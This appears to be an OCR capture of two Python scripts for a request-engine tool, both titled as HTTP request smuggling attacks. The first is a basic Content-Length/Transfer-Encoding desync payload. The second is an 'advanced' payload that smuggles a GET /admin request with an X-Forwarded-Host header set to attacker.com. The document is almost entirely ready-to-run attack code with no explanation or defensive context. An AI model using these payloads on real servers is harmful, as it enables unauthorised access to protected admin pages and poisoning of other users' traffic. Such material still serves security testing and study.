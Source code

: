 ### Basic Smuggling Script
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=5,
                           pipeline=False,
                           maxRetriesPerRequest=0)
    
    attack = '''POST / HTTP/1.1
Host: target.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED'''
    
    engine.queue(attack)
    engine.start()
```

### Advanced Smuggling Script
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=5,
                           pipeline=False,
                           maxRetriesPerRequest=0)
    
    attack = '''POST /login HTTP/1.1
Host: target.com
Content-Length: 189
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

3e
return_to=https%3A%2F%2Ftarget.com%2Fadmin
0

GET /admin HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
Content-Length: 10

x='''
    
    engine.queue(attack)
    engine.start()
```

---
